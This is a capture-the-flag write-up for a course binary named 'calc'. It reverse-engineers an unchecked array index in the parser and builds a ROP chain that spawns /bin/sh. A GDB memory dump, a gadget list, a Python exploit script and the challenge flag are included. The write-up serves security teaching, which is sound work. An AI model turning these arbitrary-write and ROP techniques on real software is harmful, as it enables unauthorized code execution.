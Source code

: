 ==============
 calc Writeup
==============

:date: 2015-01-04 02:32
:modified: 2015-01-14 22:40
:tags: ctf, secprog, writeup, return-oriented-programming
:category: memo
:slug: calc-writeup
:authors: Zespre Schmidt
:about_author: Bug generator
:email: starbops@gmail.com
:summary:

Problematic Calculator
======================

First of all, the file name is "calc.exe". But actually this binary is
elf-32... What the heck XD

Play around with it! This calculator is problematic. It can only
deal with arithmatic of positive number. For example, if you type:

.. code-block:: text

    -1+5

This will return ``0`` as a result, which is obviously not true. Also, trying
to type only ``0`` in the calculator, the error message will show up:

.. code-block:: text

    prevent division by zero

Another problem is that though it can do the elementary arithmetic, it only has
restricted capability of priority processing. For example, the expression
``2*3+4*5`` will return ``26``. But ``2*(3+4)*5`` we still got ``26`` as
answer. This shows that the calculator cannot support complicated priority
issue of elementary arithmetic, say, priority that uses parenthesis. One level
priority is supported, however.

Okay, that's enough. This weird calculator seems cannot support full
functionalites of traditional calculator. To see how it processes the input,
and the internal logic, one must use IDA Pro.

Look into The Program
=====================

The binary has five main functions:

- ``calc()``: Main loop of the calculator
- ``get_expr()``: Only allow specific character set ([+-\*/%0-9]) to be written
  into the buffer
- ``init_pool()``: Write zeros into the pool, trivial
- ``parse_expr()``: Poorly written parser
- ``eval()``: Do the operate on the ``i`` and the ``i-1`` element of the pool
  according to the operator

The key function is ``parse_expr()``. It has several weird parts such as:

- No boundary on the for loop
- Indexing by the argument which is in caller's stack frame

According to the result of decompilation, the local variables in ``calc()`` are
reside in the stack whose addresses are shown related to the ``esp`` and
``ebp``:

.. code-block:: c

    pool_t pool; // [sp+18h] [bp-5A0h]@5
    char str[1024]; // [sp+1ACh] [bp-40Ch]@2
    int stackguard; // [sp+5ACh] [bp-Ch]@1

Where the structure ``pool_t`` might be like this:

.. code-block:: c

    struct pool_t {
       int top;
       int stack[100];
    };

The calculation result of the expression will be stored at ``esp+0x1Ch``, which
is ``stack[0]``. And ``top`` will always be 1. In ``calc()``, the value of
``stack[0]`` will be printed out using ``top`` when ``top`` is 1.

.. code-block:: c

    printf((const char \*)&unk_80BF804, pool.stack[(unsigned int)((char \*)pool.top - 1)]);

There seems no boundary checking on ``top``. By this property, memory leaking
could also be possible.

In ``eval()``, the function directly doing operation to two elements of the
array without checking the boundary. We might exploiting this weak point to
modify variable which is right before the array.

.. code-block:: c

    p->stack[(unsigned int)((char \*)p->top - 2)] += p->stack[(unsigned int)((char \*)p->top - 1)];

But how to use this? We all know that the most of operators acceptable in this
calculator are in the category of "binary operators". Which means there must be
two operands between the operator. What if one of the operand is missing? Let's
do some experiments through GDB. If the expression "9+10" is entered (assume
the breakpoint was set right behind ``call 0x804902a <parse_expr>``, i.e. after
the returning of ``parse_expr()``):

.. code-block:: text

    gdb-peda$ x/16xw $esp
    0xffffd080:     0xffffd22c      0xffffd098      0x00000000      0x00000000
    0xffffd090:     0x00000000      0x00000000      0x00000001      0x00000013
    0xffffd0a0:     0x0000000a      0x00000000      0x00000000      0x00000000
    0xffffd0b0:     0x00000000      0x00000000      0x00000000      0x00000000

The value of ``top`` is 1 and the value of ``stack[0]`` is 19. Then 19 will be
printed out because ``*(stack+top-1)`` is 19. What if the expression entered is
"+5"?

.. code-block:: text

    gdb-peda$ x/16xw $esp
    0xffffd080:     0xffffd22c      0xffffd098      0x00000000      0x00000000
    0xffffd090:     0x00000000      0x00000000      0x00000005      0x00000005
    0xffffd0a0:     0x00000000      0x00000000      0x00000000      0x00000000
    0xffffd0b0:     0x00000000      0x00000000      0x00000000      0x00000000

The calculation result will be 0 because ``stack+top-1`` is ``0xffffd0ac``,
whose value is 0.

More surprisingly, we can simply use "+5+1" this kind of expression to modify
the content of the specific memory location. And the result will still be the
content of ``stack+top-1``, which is ``0xffffd0ac``. But its value is modified
by the expression.

.. code-block:: text

    gdb-peda$ x/16xw $esp
    0xffffd080:     0xffffd22c      0xffffd098      0x00000000      0x00000000
    0xffffd090:     0x00000000      0x00000000      0x00000005      0x00000005
    0xffffd0a0:     0x00000000      0x00000000      0x00000000      0x00000001
    0xffffd0b0:     0x00000001      0x00000000      0x00000000      0x00000000

Strategy
========

There are two facts which we gathered after analyzed the binary:

- Leak stack
- Write stack

So controling ``eip`` through return address should be possible. Another good
news is that we don't even have to worry about the stackguard because we are
capable to write return address rather than "overflowing" the stack buffer.
In the technique of stack buffer overflow, the canary (stackguard) will be
modified in order to overwritten the return address.

One interesting is that we modified the return address of ``calc()`` in
``parse_expr()``. In ``calc()``, the local variable in stack frame is passed
into ``parse_expr()`` as an argument. Thus making the return address
modification of caller's stack frame happened in callee's stack frame.

Shellcode
---------

First idea comes to my mind was putting shellcode in stack buffer. But
shellcode in ``stack[100]`` will not work because every time a new round in
while loop begins, the ``stack[100]`` will be re-initialized. And the raw input
we typed will be filetered (only [+-\*/%0-9]), then saved into ``str[1024]``. So
storing shellcode in ``str[1024]`` is not possible, either.

Return to LIBC
--------------

According to the hints TA provided, the program is compiled with static option.
That means "ret2libc" will not work because the library is compiled into the
program statically. There is no entry in the GOT of the program. This could be
checked by using ``file`` command.

.. code-block:: text

    calc.exe: ELF 32-bit LSB executable, Intel 80386, version 1 (GNU/Linux),
    statically linked, for GNU/Linux 2.6.24,
    BuildID[sha1]=26cd6e85abb708b115d4526bcce2ea6db8a80c64, not stripped

Also, ``objdump -R`` will print the dynamic relocation entries of the program.

.. code-block:: text

    calc.exe:     file format elf32-i386

    objdump: calc.exe: not a dynamic object
    objdump: calc.exe: Invalid operation

Return Oriented Programming
---------------------------

The program is compiled with static option, which means the possibility of
finding useful ROP gadgets are higher. The objective is to make a ROP chain
which calls ``execve("/bin/sh")``.

Exploitation
============

Using ROPgadget to find ROP gadget:

.. code-block:: bash

    $ ./ROPgadget.py --binary ~/secprog/calc.exe

Because the "/bin/sh" string resides in stack, ``ebx`` needs to be the address
of the string, which is in stack. ASLR is enabled, so it is needed to poke for
the actual stack address. The text listed below is an example, real
exploitation should calculate the location of the string dynamically.

.. code-block:: text

    leak 0xffffd63c's value, modified to 0x080550d0 :  xor eax, eax ; ret
    leak 0xffffd640's value, modified to 0x080701d1 :  pop ecx ; pop ebx ; ret
    leak 0xffffd644's value, modified to 0x00000000 -> for pop ecx
    leak 0xffffd648's value, modified to 0xffffd6ec -> for pop ebx
    leak 0xffffd64c's value, modified to 0x080908d0 :  mov eax, 7 ; ret
    lead 0xffffd650's value, modified to 0x0807cb7f :  inc eax ; ret
    lead 0xffffd654's value, modified to 0x0807cb7f :  inc eax ; ret
    lead 0xffffd658's value, modified to 0x0807cb7f :  inc eax ; ret
    lead 0xffffd65c's value, modified to 0x0807cb7f :  inc eax ; ret
    leak 0xffffd660's value, modified to 0x08049a21 :  int 0x80
    leak 0xffffd6ec's value, modified to 0x6e69622f -> "/bin"
    leak 0xffffd6f0's value, modified to 0x0068732f -> "/sh'\0'"

The return address is at ``esp+0x5ac`` (``ebp+0x4``). Its value should be
modified to the address of the first ROP gadget. Then the ROP chain starts to
work! The exploitation works like this:

1. Poke ``ebp+0x10`` for the address of the string "/bin/sh".
2. Set ``eax`` and ``ecx`` to 0.
3. Make ``ebx`` to be the value of ``ebp+0x10``.
4. Accumulate ``eax`` to 11
5. Interrupt
6. Put the string "/bin/sh" in the address which has already stored in ``ebx``

.. code-block:: python

    addrs = ['+361', '+362', '+363', '+364',
             '+365', '+366', '+367', '+368',
             '+369', '+370', '+405', '+406']

    payloads = [0x080550d0, 0x080701d1, 0x00000000, 0x00000000,
                0x080908d0, 0x0807cb7f, 0x0807cb7f, 0x0807cb7f,
                0x0807cb7f, 0x08049a21, 0x6e69622f, 0x0068732f]

    def pokestack(s):
        s.send('+364\n')
        binsh = int(s.recv(1024))
        payloads[3] = binsh         # dynamically update addr of /bin/sh

    def rop(s):
        for i in range(12):
            print '[!] target: %s' % hex(payloads[i])
            s.send(addrs[i]+'\n')
            mleak = int(s.recv(1024))
            print '[!] leak: %s' % hex(mleak)
            offset = payloads[i]-mleak
            print '[!] offset: %d' % offset
            g = '%s%+d\n' % (addrs[i], offset)
            print '[+] send: %s' % g
            s.send(g)
            print '==> %s\n=================' % hex(int(s.recv(1024)))
        s.send('\n')

Flag
====

.. code-block:: text

    SECPROG{C:\Windows\System32\calc.exe}

References
==========

- `JonathanSalwan/ROPgadget`__

__ : https://github.com/JonathanSalwan/ROPgadget

